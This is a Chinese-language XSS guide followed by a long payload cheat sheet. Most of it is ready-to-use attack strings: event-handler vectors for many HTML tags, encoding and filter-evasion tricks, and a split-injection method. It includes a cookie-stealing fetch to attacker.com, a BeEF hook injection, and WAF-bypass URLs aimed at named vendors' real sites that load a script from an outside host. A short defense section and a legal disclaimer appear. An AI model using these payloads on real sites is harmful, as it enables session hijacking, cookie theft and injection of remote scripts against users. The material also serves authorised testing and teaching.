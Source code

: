 ```markdown
# XSS漏洞应用指南（2025年深度版）

---

## 一、XSS漏洞核心原理与分类
### 1.1 漏洞原理
XSS（跨站脚本攻击）通过向网页注入恶意脚本（如JavaScript），利用未过滤的用户输入在受害者浏览器中执行非预期代码。其核心逻辑是：**用户输入数据被直接拼接至HTML/JS中，且未经过验证或转义**。例如：
```html
<!-- 用户输入被直接输出 -->
<div>用户评论：${userInput}</div>
```
当`userInput`为`<script>alert(document.cookie)</script>`时，即可触发Cookie窃取。

### 1.2 三大基础类型
| 类型       | 触发条件                            | 持久性 | 典型场景           | 危害等级 |
| ---------- | ----------------------------------- | ------ | ------------------ | -------- |
| **反射型** | 恶意脚本通过URL参数反射回页面       | 非持久 | 搜索框、错误提示页 | 中       |
| **存储型** | 恶意脚本存储于服务器（数据库/文件） | 持久   | 评论区、用户资料页 | 高危     |
| **DOM型**  | 客户端JS直接操作DOM时未过滤输入     | 非持久 | 前端动态渲染页面   | 中       |

**案例演示**：
- **反射型**：构造URL `http://example.com/search?q=<script>fetch('http://attacker.com?cookie='+document.cookie)</script>`，诱导用户点击。
- **存储型**：在论坛评论区提交`<img src=x onerror=stealCookies()>`，所有访问者触发。

---

## 二、高级攻击场景与利用技术
### 2.1 非传统媒介注入
#### (1) **SVG-XSS**
```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```
SVG文件上传后，浏览器解析时触发脚本执行（需允许上传SVG格式）。

#### (2) **PDF-XSS**
通过PDF编辑器插入JavaScript动作：
```javascript
app.alert({cMsg: "XSS Triggered", cTitle: "Exploit"});
```
用户使用浏览器打开PDF时触发。

#### (3) **Flash-XSS**
```actionscript
getURL("javascript:alert(document.domain)");
```
结合SWF文件上传漏洞，实现跨域攻击（需Flash插件支持）。

### 2.2 自动化工具链
#### (1) **BeEF框架**
```bash
# 启动BeEF控制端
docker run -p 3000:3000 janes/beef
```
注入代码：
```html
<script src="http://beef-server:3000/hook.js"></script>
```
**攻击能力**：
- 键盘记录
- 浏览器指纹收集
- 内网渗透
- 社交工程钓鱼

#### (2) **XSS平台搭建**
使用开源平台（如[XSS Hunter](https://xss-hunter.com/)）自动收集Cookie、页面截图等数据。

---

## 三、漏洞挖掘与绕过技巧
### 3.1 基础检测方法
```javascript
'"><svg/onload=prompt(1)> 
```
通过注入特殊字符测试过滤规则，观察是否弹窗或HTML结构变化。

### 3.2 WAF绕过技术
| 绕过类型     | 示例                                          | 原理                       |
| ------------ | --------------------------------------------- | -------------------------- |
| **字符分割** | `jav&#x61;script:alert(1)`                    | 十六进制编码绕过关键词检测 |
| **属性混淆** | `<img/src=x onerror=alert(1)>`                | 省略引号与空格             |
| **CSS注入**  | `<div style="x:expression(alert(1))">`        | 利用CSS表达式执行JS        |
| **事件复用** | `<svg onload=location='javascript:alert(1)'>` | 动态构造执行环境           |

**实战案例**：
```html
<iframe srcdoc="<script>alert(parent.document.cookie)</script>"></iframe>
```
通过`srcdoc`属性绕过传统XSS过滤器。

---

## 四、防御体系构建
### 4.1 开发层防护
#### (1) **输入验证**
```javascript
// 白名单过滤（仅允许字母、数字）
function sanitize(input) {
  return input.replace(/[^a-zA-Z0-9]/g, '');
}
```

#### (2) **输出编码**
| 输出场景   | 编码方法              | 工具函数示例（Node.js）              |
| ---------- | --------------------- | ------------------------------------ |
| HTML正文   | HTML实体编码          | `const safe = escapeHtml(userInput)` |
| HTML属性   | 引号转义+十六进制编码 | `value.replace(/"/g, '&quot;')`      |
| JavaScript | Unicode转义           | `JSON.stringify(userInput)`          |

#### (3) **CSP策略**
```http
Content-Security-Policy: default-src 'self'; script-src 'nonce-abc123'
```
通过随机数（nonce）限制脚本执行来源。

### 4.2 运维层加固
- **Cookie防护**：设置`HttpOnly`和`SameSite=Strict`属性
- **文件上传**：限制文件类型、检测文件魔数
- **日志监控**：实时告警异常请求（如包含`<script>`的URL参数）

---

## 五、法律与伦理边界
根据《网络安全法》第二十七条，未经授权的渗透测试属于违法行为。所有测试需满足：
1. 获得目标系统的书面授权
2. 测试数据加密存储，完成后立即销毁
3. 禁止使用`--os-shell`等高风险操作生产环境

> 本指南仅用于授权测试场景，恶意利用将承担刑事责任。技术发展日新月异，请持续关注OWASP等权威机构的最新防御建议。

---

### 扩展阅读
- [XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) - 最新绕过技巧
- [CSP Evaluator](https://csp-evaluator.withgoogle.com/) - 策略有效性检测工具
- [Web安全攻防实战](https://github.com/OWASP/CheatSheetSeries) - OWASP官方知识库

```
```

### 0x01. <a> 标签

```
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>
```

### 0x02. <img>标签

```
<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">
```

### 0x03. <iframe>标签

```
<iframe src="javascript:alert(1)">test</iframe>
<iframe onload="alert(document.cookie)"></iframe>
<iframe onload="alert('xss');"></iframe>
<iframe onload="base64,YWxlcnQoJ3hzcycpOw=="></iframe>
<iframe onmouseover="alert('xss');"></iframe>
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

### 0x04. <audio> 标签

```
<audio src=1 onerror=alert(1)>
<audio><source src="x" onerror="alert('xss');"></audio>
<audio controls onfocus=eval("alert('xss');") autofocus=""></audio>
<audio controls onmouseover="alert('xss');"><source src="x"></audio>

```

### 0x05. <video>标签

```
<video src=x onerror=alert(1)>
<video><source onerror="alert('xss');"></video>
<video controls onmouseover="alert('xss');"></video>
<video controls onfocus="alert('xss');" autofocus=""></video>
<video controls onclick="alert('xss');"></video>
```

### 0x06. <svg> 标签

```
<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>
```

### 0x07. <button> 标签

```
<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>
```

### 0x08. <div>标签

这个需要借助url编码来实现绕过

```
原代码：
<div onmouseover='alert(1)'>DIV</div>
经过url编码：
<div onmouseover%3d'alert%26lpar%3b1%26rpar%3b'>DIV<%2fdiv>
```

### 0x09. <object>标签

这个需要借助 data 伪协议和 base64 编码来实现绕过

```
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
```

### 0x10. <script> 标签

```
<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>
```

### 0x11. <p> 标签

```
<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>
```

### 0x12. <input> 标签

```
<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>
```

### 0x13. <details>标签

```
<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>
```

### 0x14. <select> 标签

```
<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>
```

### 0x15. <form> 标签

### <form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form> <form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form> <form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>

### 0x16. <body> 标签

```
<body onload="alert('xss');"></body>
```



## 二、xss 常见绕过

## 编码绕过

浏览器对 XSS 代码的解析顺序为：**HTML解码 —— URL解码 —— JS解码(只支持UNICODE)**。

### 0x01. html 实体编码

**当可控点为单个标签属性时，可以使用 html 实体编码。**

```
<a href="可控点">test</a>

<iframe src="可控点">test<iframe>
<img src=x onerror="可控点">
```

**Payload**

```
<a href="javascript:alert(1)">test</a>
```

**十进制**

```
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">test</a>
```

**十六进制**

```
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">test</a>
```

**可以不带分号**

```
<a href="&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3a&#x61&#x6c&#x65&#x72&#x74&#x28&#x31&#x29">test</a>
```

**可以填充0**

```
<a href="&#x006a&#x0061&#x0076&#x0061&#x0073&#x0063&#x0072&#x0069&#x0070&#x0074&#x003a&#x0061&#x006c&#x0065&#x0072&#x0074&#x0028&#x0031&#x0029">test</a>
```

### 0x02. url 编码

**当注入点存在 href 或者 src 属性时，可以使用 url 编码。**

```
<a href="可控点">test</a>

<iframe src="可控点">test</iframe>
```

**Payload**

```
<a href="javascript:alert(1)">test</a>

<iframe src="javascript:alert(1)">test</iframe>
```

**注：url 解析过程中，不能对协议类型进行任何的编码操作，所以 javascript: 协议头需要保留。**

```
<a href="javascript:%61%6c%65%72%74%28%31%29">test</a>

<iframe src="javascript:%61%6c%65%72%74%28%31%29">test</iframe>
```

**可以二次编码**

```
<a href="javascript:%2561%256c%2565%2572%2574%2528%2531%2529">test</a>

<iframe src="javascript:%2561%256c%2565%2572%2574%2528%2531%2529">test</iframe>
```

### 0x03. js 编码

**解析的时候字符或者字符串仅会被解码为字符串文本或者标识符名称，例如 js 解析器工作的时候将`\u0061\u006c\u0065\u0072\u0074`进行解码后为`alert`，而`alert`是一个有效的标识符名称，它是能被正常解析的。但是像圆括号、双引号、单引号等等这些字符就只能被当作普通的文本，从而导致无法执行。**

**由于 js 是最后进行解析的，所以如果混合编码，需要先使用 js 编码再进行 url 编码或者 html 实体编码。**

**js 编码策略：**

1. "\" 加上三个八进制数字，如果个数不够，前面补0，例如 "<" 编码为 "\074"
2. "\x" 加上两个十六进制数字，如果个数不够，前面补0，例如 "<" 编码为 "\x3c"
3. "\u" 加上四个十六进制数字，如果个数不够，前面补0，例如 "<" 编码为 "\u003c"
4. 对于一些控制字符，使用特殊的 C 类型的转义风格（例如 \n 和 \r）

```
<img src=x onerror="可控点">

<input onfocus=location="可控点" autofocus> 
```

**Payload**

```
<img src=x onerror="alert(1)">

<input onfocus=location="alert(1)" autofocus> 
```

**Unicode 编码**

```
<img src=x onerror="\u0061\u006c\u0065\u0072\u0074(1)">

<input onfocus=location="javascript:\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029" autofocus> 
```

**注：**

**Unicode 编码时，只能对有效的标识符进行编码，否则非标识符解码后不能解析执行。例如 javascript:alert(1) ，进行 Unicode 编码时，只能对 alert 和 "1" 进行编码，框号编码后会被当成文本字符，不能执行。****ascii 八进制和十六进制编码使用时需要 eval、setTimeout等函数传递变量，并且可以对整个传递参数进行编码。例如 eval("alert(1)")，可以对 "alert(1)" 整个进行八进制、十六进制或者 Unicode 编码(双引号不参与)。**

**八进制和十六进制**

setTimeout() 是属于 window 的方法，该方法用于在指定的毫秒数后调用函数或计算表达式。

语法：`setTimeout(要执行的代码, 等待的毫秒数)`

```
setTimeout(JavaScript 函数, 等待的毫秒数)
1.<svg/onload=setTimeout('\x61\x6C\x65\x72\x74\x28\x31\x29')>
2.<svg/onload=setTimeout('\141\154\145\162\164\050\061\051')>
3.<svg/onload=setTimeout('\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029')>
4.<script>eval("\x61\x6C\x65\x72\x74\x28\x31\x29")</script>
5.<script>eval("\141\154\145\162\164\050\061\051")</script>
6.<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```

### 0x04. 混合编码

```
<a href="可控点">test</a>
```

**Payload**

```
<a href="javascript:alert(1)">test</a>
```

**html 编码**

```
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">test</a>
```

**Unicode 编码**

```
<a href="javascript:\u0061\u006c\u0065\u0072\u0074(1)">test</a>
```

**注：Unicode 编码不能对括号使用**

**url 编码**

```
<a href="javascript:%61%6c%65%72%74%28%31%29">test</a>
```

**由于浏览器对 xss 代码的解析过程是：html解析 —— url解析 —— js解析，所以可以编码方式进行组合绕过。**

```
1. 原代码
<a href="javascript:alert(1)">test</a>
2. 对alert进行JS编码（unicode编码）
<a href="javascript:\u0061\u006c\u0065\u0072\u0074(1)">test</a>
3. 对href标签中的\u0061\u006c\u0065\u0072\u0074进行URL编码
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)">test</a>
4. 对href标签中的javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34(1)进行HTML编码：
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x31;&#x29;">test</a>
```

**注：href、src等加载url的属性可以使用三种混合编码，on事件可以使用html实体编码和js编码混合，但url编码在on事件中不会解析。**

### 0x05. base64 编码

**base64 编码通常需要使用到 data 伪协议。**

**data 协议使用方法：`data:资源类型;编码,内容`**

base64编码内容为

```
<script>alert(/xss/)</script>
PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=
```

通常与 base64 编码配合 data 协议的标签有 **<object>、<a>、<iframe>**

```
1.<object> 标签
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>
2.<a> 标签
<a href="data:text/html;base64, PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=">test</a>   （新版浏览器不支持）
3.<iframe> 标签
<iframe src="data:text/html;base64, PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></iframe>
4.<embed> 标签
<embed src="data:text/html;base64, PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></embed>
```

**atob 函数**

atob() 方法用于解码使用 base-64 编码的字符串。

语法：`window.atob(encodedStr)`(encodedStr: 必需，是一个通过 btoa() 方法编码的字符串)

```
1.<a href=javascript:eval(atob('YWxlcnQoMSk='))>test</a>
2.<a href=javascript:eval(window.atob('YWxlcnQoMSk='))>test</a>
3.<a href=javascript:eval(window['atob']('YWxlcnQoMSk='))>test</a>
4.<img src=x onmouseover="eval(window.atob('YWxlcnQoMSk='))">
5.<img src=x onerror="eval(atob('YWxlcnQoMSk='))">
6.<iframe src="javascript:eval(window['atob']('YWxlcnQoMSk='))"></iframe>
```

### 0x06. ascii 编码

ascii 编码一般配合`String.fromCharCode`使用。

```
alert(1)
十进制：97, 108, 101, 114, 116, 40, 49, 41
十六进制：0x61, 0x6C, 0x65, 0x72, 0x74, 0x28, 0x31, 0x29
```

**十进制**

```
<a href='javascript:eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41))'>test</a>
```

**十六进制**

```
<a href='javascript:eval(String.fromCharCode(0x61, 0x6C, 0x65, 0x72, 0x74, 0x28, 0x31, 0x29))'>test</a>
```



## 空格过滤绕过

<html><img**AA**src**AA**onerror**BB**=**BB**alert**CC**(1)**DD**</html>

A位置可填充 /，/123/，%09，%0A，%0C，%0D，%20 B位置可填充 %09，%0A，%0C，%0D，%20 C位置可填充 %0B，/**/，如果加了双引号，则可以填充 %09，%0A，%0C，%0D，%20 D位置可填充 %09，%0A，%0C，%0D，%20，//，>



## 圆括号过滤绕过

### 0x01. 反引号替换

```
<script>alert`1`</script>
```

### 0x02. throw 绕过

```
<video src onerror="javascript:window.onerror=alert;throw 1">
<svg/onload="window.onerror=eval;throw'=alert\x281\x29';">
```



## 单引号过滤绕过

### 0x01. 斜杠替换

```
<script>alert(/xss/)</script>
```

### 0x02. 反引号替换

```
<script>alert(`xss`)</script>
```



## alert 过滤绕过

### 0x01. prompt 替换

```
<script>prompt(/xss/)</script>
```

### 0x02. confirm 替换

```
<script>confirm(/xss/)</script>
```

### 0x03. console.log 替换

```
<script>console.log(3)</script>
```

### 0x04. document.write 替换

```
<script>document.write(1)</script>
```

### 0x05. base64 绕过

```
<img src=x onerror="Function`a${atob`YWxlcnQoMSk=`}```">
<img src=x onerror="``.constructor.constructor`a${atob`YWxlcnQoMSk=`}```">
```



## 关键词置空绕过

### 0x01. 大小写绕过

```
<script>alert(/xss/)</script>
```

可以转换为

```
<ScRiPt>AlErT(/xss/)</sCrIpT>
```

### 0x02. 嵌套绕过

嵌套<script>和</script>突破

```
<script>alert(/xss/)</script>
```

可以转换为

```
<sc<script>ript>alert(/xss/)</sc</script>ript>
```



## 函数拼接

### 0x01. eval

```
<img src="x" onerror="eval('al'+'ert(1)')">
```

### 0x02. top

```
<img src="x" onerror="top['al'+'ert'](1)">
```

### 0x03. window

```
<img src="x" onerror="window['al'+'ert'](1)">
```

### 0x04. self

```
<img src="x" onerror="self[`al`+`ert`](1)">
```

### 0x05. parent

```
<img src="x" onerror="parent[`al`+`ert`](1)">
```

### 0x06. frames

```
<img src="x" onerror="frames[`al`+`ert`](1)">
```

### 0x07. 常用函数

```
<img src="x" onerror="eval(alert(1))">
<img src="x" onerror="open(alert(1))">
<img src="x" onerror="document.write(alert(1))">
<img src="x" onerror="setTimeout(alert(1))">
<img src="x" onerror="setInterval(alert(1))">
<img src="x" onerror="Set.constructor(alert(1))">
<img src="x" onerror="Map.constructor(alert(1))">
<img src="x" onerror="Array.constructor(alert(1))">
<img src="x" onerror="WeakSet.constructor(alert(1))">
<img src="x" onerror="constructor.constructor(alert(1))">
<img src="x" onerror="[1].map(alert(1))">
<img src="x" onerror="[1].find(alert(1))">
<img src="x" onerror="[1].every(alert(1))">
<img src="x" onerror="[1].filter(alert(1))">
<img src="x" onerror="[1].forEach(alert(1))">
<img src="x" onerror="[1].findIndex(alert(1))">
```



## 赋值拼接

```
<img src onerror=_=alert,_(1)>
<img src x=al y=ert onerror=top[x+y](1)>
<img src onerror=top[a='al',b='ev',b+a]('alert(1)')>
<img src onerror=['ale'+'rt'].map(top['ev'+'al'])[0]['valu'+'eOf']()(1)>
```



## 火狐IE专属

```
<marquee onstart=alert(1)>
```



## 拆分法

当 Web 应用程序对目标用户的输入长度进行了限制时，这时无法注入较长的xss攻击向量，但是特定情况下，这种限制可以通过拆分法注入的方式进行绕过。

```
<script>a='document.write("'</script>
<script>a=a+'<script src=ht'</script>
<script>a=a+'tp://test.com/xs'</script>
<script>a=a+'s.js></script>")'</script>
<script>eval(a)</script>
```

通过上面的拆分法可以拼凑出下面完整的攻击向量：

```
document.write("<script src = http://test.com/xss.js></script>")
```



# 三、绕过 waf 拦截

### 安全狗

```
http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=top[`al`%2B`ert`](1);>
http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=appendChild(createElement("script")).src="//z.cn">
```

### D盾

```
http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[`al`%2B`ert`](1);>
http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```

### 云锁+奇安信 waf

```
http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[`al`%2B`ert`](1);>
http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```





参考文章：

